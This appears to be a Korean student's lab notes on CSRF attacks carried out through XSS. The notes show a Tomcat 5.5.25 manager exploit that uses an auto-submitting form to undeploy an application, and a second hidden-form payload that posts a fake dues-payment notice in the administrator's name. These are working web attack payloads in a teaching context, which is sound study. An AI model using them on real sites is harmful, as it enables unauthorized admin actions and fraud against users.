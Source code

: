 

*****



XSS를 이용한 CSRF(cross site request forgery)공격

* 요청을 위조하여 공격

* 서버에도 영향을 미친다



공격 실습

Ivano라는 화이트 해커가 tomcat5.5.25 이하 버전에서 일어나는 CSRF 공격을 공지했다

1. 먼저 내(내가 매니저 역할) pc에 tomcat5.5.25를 깐다

2. Conf/tomcat-users.xml 파일에 다음을 추가한다

   `<role rolename="manager"/><user username="admin" password="admin" roles="manager"/>`

3. conf/server.xml을 열어서 8080포트를 8888로, 8005포트를 8006으로 고친다

4. Tomcat을 실행시킨다

5. 매니저 페이지로 들어가 본다 ( admin/admin )

   ![1](https://user-images.githubusercontent.com/20276476/77032829-e1cf2680-69e8-11ea-8c39-c7c68b304564.png)

   

6. 클라이언트 머쉰에서 공격자가 글을 올린다  -> 해커머신 openeg 게시판

   ```html
   <html><body>안녕하세요? 잘 지내셨죠?<form method="POST" name="form0" action="http://hostIP:8888/manager/html/stop?path=/jsp-examples"></form><script>document.forms[0].submit();</script></body></html>
   ```

7. a를 로그아웃하고 host에서 openeg로 다른 아이디로 로그인함

   

8. 매니저가 공격자가 올린 글을 클릭하는 순간 jsp-examples가 undeploy 되는 것을 볼 수 있다.



*****

다른 공격

게시판에 내용을 이렇게 올린다

```html
<body>
<form style="display:none" method="post" action="write.do" ENCTYPE="multipart/form-data">
<input type="hidden" name="subject" value="회비 계좌 확인 요합니다">
<input type="hidden" name="writer" value="관리자">
<input type="hidden" name="writerId" value="admin">
<input type="hidden" name="content" value="이번 모임의 회비 납부 안내입니다<br>국민은행 01-0123-1234 홍길동">
<input type="submit" name="submit" id="send">
</form>
<script>document.forms[0].send.click();</script>
</body>
```

